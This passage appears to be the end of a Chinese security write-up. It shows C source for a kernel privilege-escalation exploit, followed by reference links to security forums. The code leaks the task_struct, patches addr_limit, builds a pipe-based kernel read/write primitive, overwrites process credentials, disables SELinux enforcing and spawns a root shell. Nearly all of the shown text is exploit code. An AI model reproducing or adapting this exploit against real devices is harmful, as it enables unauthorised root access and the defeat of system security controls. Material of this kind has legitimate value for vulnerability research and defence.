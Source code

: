 ```
    int selinuxEnabled = kReadDword(selinuxEnforcing);

    if (!selinuxEnabled) {
        printf("\t[*] selinux enforcing is disabled\n");
        return;
    }

    printf("\t[*] selinux enforcing is enabled\n");

    //
    // Now patch selinux_enforcing
    //

    kWriteDword(selinuxEnforcing, 0x0);

    printf("\t[*] Disabled selinux enforcing\n");
}

int main(){
    
     leak_task_struct();
     PatchAddrLimit();
    
     printf("[+] main : Setting up pipe for kernel read\\write \n");
     if(pipe(m_kernel_rw_pipe_fd) == -1){
         printf("\t[-] Unable to create pipe \n");
         exit(EXIT_FAILURE);
     }else{
         printf("\t [*] pipe created successfully\n");
     }
     JudgeRWAnyWhere();
     PatchCred();
    DisableSElinux();
    printf("[+] spawn root shell\n");
    system("/bin/sh");
     


}

```

参考
--

https://www.4hou.com/posts/7O9G

https://www.4hou.com/posts/mGqA

https://bbs.pediy.com/thread-266198.htm

https://www.52pojie.cn/thread-1083552-1-1.html